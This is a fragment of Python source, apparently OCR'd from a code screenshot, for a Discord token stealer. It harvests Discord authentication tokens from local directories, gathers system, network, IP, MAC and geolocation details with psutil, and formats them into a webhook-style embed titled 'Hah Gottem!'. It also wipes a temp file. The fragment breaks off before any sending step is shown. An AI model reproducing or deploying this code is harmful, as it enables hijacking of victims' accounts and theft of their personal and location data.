 ```
    return Tokens

def Wipe():
    if os.path.exists(roaming + "temp.txt"):
      output2 = open(roaming + "temp.txt", "w")
      output2.write("")
      output2.close()
    else:
      pass

realshit = ""
for Discord, Directory in Directories.items():
    if os.path.exists(Directory):
        Tokens = Yoink(Directory)
        if len(Tokens) > 0:
            for Token in Tokens:
                realshit += f"{Token}\n"

cpufreq = psutil.cpu_freq()
svmem = psutil.virtual_memory()
partitions = psutil.disk_partitions()
disk_io = psutil.disk_io_counters()
net_io = psutil.net_io_counters()

partitions = psutil.disk_partitions()
partition_usage = None
for partition in partitions:
    try:
        partition_usage = psutil.disk_usage(partition.mountpoint)
        break
    except PermissionError:
        continue

system_info = {
    "embeds": [
        {
            "title": f"Hah Gottem! - {host}",
            "color": 8781568
        },
        {
            "color": 7506394,
            "fields": [
                {
                    "name": "GeoLocation",
                    "value": f"Using VPN?: {proxy}\nLocal IP: {localip}\nPublic IP: {publicip}\nMAC Adress: {mac}\n\nCountry: {country} | {loc} | {timezone}\nregion: {region}\nCity: {city} | {postal}\nCurrency: {currency}\n\n\n\n"
                }
            ]
        },
        {
            "fields": [
                {
                    "name": "System Information",
                    "value": f"System: {uname.system}\nNode: {uname.node}\nMachine: {uname.machine}\nProcessor: {uname.processor}\n\nBoot Time: {bt.year}/{bt.month}/{bt.day} {bt.hour}:{bt.minute}:{bt.second}"
                }
            ]
        },
        {
            "color": 15109662,
            "fields": [
```